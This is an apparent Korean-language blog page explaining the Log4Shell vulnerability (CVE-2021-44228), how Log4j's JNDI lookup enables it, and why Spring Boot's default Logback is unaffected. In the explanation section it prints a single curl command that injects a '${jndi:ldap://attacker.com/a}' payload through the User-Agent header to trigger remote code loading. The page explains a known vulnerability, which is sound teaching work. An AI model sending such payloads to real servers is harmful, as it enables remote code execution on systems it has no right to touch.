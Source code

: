 ```yaml
---
layout: default
title: Log4j
parent: 자바 라이브러리 Java libary
nav_order: 200
last_modified_date: 2021-02-18 00:00:00
last_modified_at: 2021-02-18 00:00:00
---
```


# Log4j


## Log4j 보안 취약점 사태

[CVE-2021-44228](https://ko.wikipedia.org/wiki/Log4Shell)

Java 언어 기반의 프로그램중 가장 많이 사용하는 로그 라이브러리로써, 2.14.1 이하 버전의 log4j2 를 사용할 경우 이 취약점에 노출된다.

최초의 발단은 알리바바 클라우드 보안팀으로 부터 알려지게 되었으며, 2021년 12월 9일 트위터의 [게시글](https://twitter.com/P0rZ9/status/1468949890571337731) 로 부터 본격적으로 대중들에게 알려지게 되었다. 

## 취약점 원리

취약점 원리를 먼저 파악하기 전 JNDI(Java Naming and Directory Interface)에 대해 먼저 이해하여야 한다. JNDI는 디렉터리 서비스에서 제공하는 데이터 및 객체를 발견(discover)하고 참고(lookup)하기 위한 자바 API다.

많이 쓰이는 API는 아니지만 그나마 일반적으로 쓰였던 것은 원격에서 Java 애플리케이션 DB 설정을 변경하고자 할 때 사용하기도 한다. JDNI의 경우 LDAP, DNS, NIS, RMI 같은 프로토콜을 이용해서 JNDI를 호출할 수 있도록 지원한다.

JNDI 자체가 문제가 되는건 아니다. 근데 log4j 에서 무슨 이유인지는 모르겠지만 log 를 찍을때, JNDI 를 lookup 할 수 있는 코드가 포함되어 있었다. Log4j 라이브러리  패키지 경로 <code> package org.apache.logging.log4j.core.lookup </code> 에서 <code> JndiLookup </code> 이라는 클래스 가 있는데, 이 녀석은 logger 인터페이스로 전달받은 내용중 특정 네이밍 규칙으로 입력된 내용을 JDNI 으로 핸들링 해주는 클래스이다.  자세한 코드는 우측 링크를 선택해서 보면 된다. [JndiLookup.java](https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java)

여기에 LDAP 이라는 프로토콜과 결합되어 심각한 문제가 발생됬다. User-Agent 나 X-Api-Version 같은 header 값을 로그로 출력하는 코드가 포함되어 있을 경우 해커의 LDAP 주소를 입력하여 악성 코드를 서버에서 손쉽게 실행할 수 있게 된 것이다.

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```

즉 이번 사태의 **근본적인 문제**는 log4j 에서 log 를 출력할 때, JNDI 를 lookup 하고 있었다는것이 문제다. 왜냐하면 log 를 출력할때 JNDI 를 lookup 하는 기능은 아무도 쓰지도 않는 기능이다. 스프링 부트 기본 내장 logger 인 logback 에서는 jndi lookup 자체를 하고 있지 않다. 굳이 고급 개발자가 아니더라도 해당 코드는 취약점이 발생하기 매우 높은 코드라는것은 예측이 가능한데 왜 이런 코드가 오픈 소스에 포함이 되어 있었을까 의문이다. (혹시?)

## Spring boot Logback은 안전하다.

위 취약점은 log4j에서 발생했다. 스프링 부트는 기본적으로 logback 을 사용한다. logback 은 jndi 자체를 lookup 하지 않기 때문에 ${jndi:~~} 와 같은 코드를 보내더라도 단순 문자열으로 출력할 뿐이다. 물론 스프링 부트 기본 logger를 사용하지 않고 직접 log4j 의존성을 주입하여 사용했다면 문제가 될 수 있다.